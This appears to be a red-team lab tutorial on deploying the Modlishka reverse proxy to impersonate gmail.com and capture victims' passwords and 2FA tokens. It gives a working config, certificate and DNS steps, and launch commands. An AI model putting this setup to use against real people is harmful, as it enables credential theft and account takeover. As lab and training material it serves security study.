 ```yaml
---
layout: post
title: "2024-06-18-how to setup modliska reverse http proxy for phishing"
date: 2024-06-18
categories: red-team-infrastructure
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /how-to-setup-modliska-reverse-http-proxy-for-phishing/
---
```


# Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim (MITM) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](<../../.gitbook/assets/Annotation 2019-06-25 214151.png>)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](<../../.gitbook/assets/Annotation 2019-06-25 214300.png>)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](<../../.gitbook/assets/Annotation 2019-06-25 214425.png>)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](<../../.gitbook/assets/Annotation 2019-06-25 214749.png>)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](<../../.gitbook/assets/Annotation 2019-06-25 214849.png>)

Once the DNS TXT record is created, continue with the certificate generation:

![](<../../.gitbook/assets/Annotation 2019-06-25 214924.png>)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](<../../.gitbook/assets/Annotation 2019-06-25 215107.png>)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](<../../.gitbook/assets/Annotation 2019-06-25 215155.png>)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](<../../.gitbook/assets/Annotation 2019-06-25 215308.png>)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](<../../.gitbook/assets/Annotation 2019-06-25 215702.png>)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}
@spotheplanet

